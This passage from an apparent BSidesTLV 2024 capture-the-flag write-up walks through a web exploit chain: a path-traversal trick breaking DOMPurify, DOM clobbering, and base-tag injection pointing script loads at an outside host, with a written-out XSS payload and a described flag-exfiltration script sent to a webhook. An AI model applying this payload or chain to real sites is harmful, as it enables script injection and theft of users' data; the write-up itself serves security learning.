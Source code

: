 so we can break the try by appending `/api/..%2f` to the URL and trick the server into fetching `./dompurify.js` from a different context, that will make the `DOMPurify.sanitize()` break because this is not exist.

![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/BSidesTLV2024/Pasted%20image%2020240628115431.png?raw=true)
and yes, it is broken!

![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/BSidesTLV2024/Pasted%20image%2020240628115829.png?raw=true)

Now we got into this place of the code that loads the `./logger.js` script and we need to find a way how can we get it to be our `evil.com/logger.js` script....
Ummmm.. that reminds me of something! Remember the results from the CSP Evaluator?
I'll remind you them:
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/BSidesTLV2024/Pasted%20image%2020240628101750.png?raw=true)

we have the Base Tag Injection which can change the base url of the `logger.js` script.
so that means we can change it to whatever I want and run js on the client (aka XSS)!

lets make our final payload that will clobber isDevelopment and change the base url:

```/api/..%2F?note=<base id="isDevelopment" href="https://x55.is/">```

and YAY we got XSS:
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/BSidesTLV2024/Pasted%20image%2020240628121006.png?raw=true)

no we need to make a script that our webhook will send that will fetch the `/api/support/flag` endpoint and send us the response from it:

![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/BSidesTLV2024/Pasted%20image%2020240628121203.png?raw=true)

I made this function that will fetch the `/api/support/flag` endpoint and send us the response from it:

I've loaded the script at the webhook site, and placed the note url in the contact support page:
![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/BSidesTLV2024/Pasted%20image%2020240628122412.png?raw=true)

```